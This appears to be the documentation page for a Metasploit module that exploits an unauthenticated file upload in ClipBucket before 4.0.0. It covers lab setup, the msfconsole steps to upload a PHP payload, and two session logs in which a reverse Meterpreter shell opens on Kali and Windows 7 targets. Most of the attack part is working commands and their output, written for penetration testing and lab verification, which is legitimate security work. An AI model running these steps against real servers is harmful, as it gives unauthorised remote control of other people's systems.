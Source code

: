 ## Vulnerable Application

### Description

A malicious file can be uploaded by an unauthenticated attacker through the `actions/beats_uploader.php` script.
ClipBucket < 4.0.0 - Release 4902 is vulnerable.  Additional information and vulnerabilities can be viewed on
Exploit-DB [44250](https://www.exploit-db.com/exploits/44250/)

Available at [Exploit-DB](https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip)

### Installation

Download Application: ```wget https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip```

Unzip: ```unzip 60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip ```

Move In WebDirectory: ```mv clipbucket-4881/upload/* /var/www/html/```

Change Owner: ```chown -R www-data:www-data /var/www/html/```

Follow Clipbucket Installer Instructions at: ```http://localhost/```


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/clipbucket_fileupload_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set lport <port>`
  7. Do: `set lhost <ip>`
  8. Do: `exploit`
  9. You should get a shell.

## Options

### TARGETURI

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios

### ClipBucket on Kali Linux

```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.4
rhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set targeturi clipbucket
targeturi => clipbucket
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 5050
lport => 5050
msf exploit(multi/http/clipbucket_fileupload_exec) > run 

[*] Started reverse TCP handler on 10.22.1.4:5050 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php 
[*] Executing Payload [ clipbucket/actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php ]
[*] Sending stage (37543 bytes) to 10.22.1.4
[*] Meterpreter session 1 opened (10.22.1.4:5050 -> 10.22.1.4:41752) at 2018-03-12 13:52:10 +0530
[+] Deleted 1520842928949a3f.php

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 4.14.0-kali3-amd64 #1 SMP Debian 4.14.17-1kali1 (2018-02-16) x86_64
Meterpreter : php/linux
meterpreter > 
```
### ClipBucket on Windows 7

```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.13
rhost => 10.22.1.13
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set TARGETURI clipbucketest
TARGETURI => clipbucketest
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4 
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 4545
lport => 4545
msf exploit(multi/http/clipbucket_fileupload_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.4:4545 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php 
[*] Executing Payload [ clipbucketest/actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php ]
[*] Sending stage (37543 bytes) to 10.22.1.13
[*] Meterpreter session 1 opened (10.22.1.4:4545 -> 10.22.1.13:49166) at 2018-03-12 14:11:10 +0530
[+] Deleted 152084407045df09.php

meterpreter > sysinfo 
Computer    : AGENT22-PC
OS          : Windows NT AGENT22-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 
```

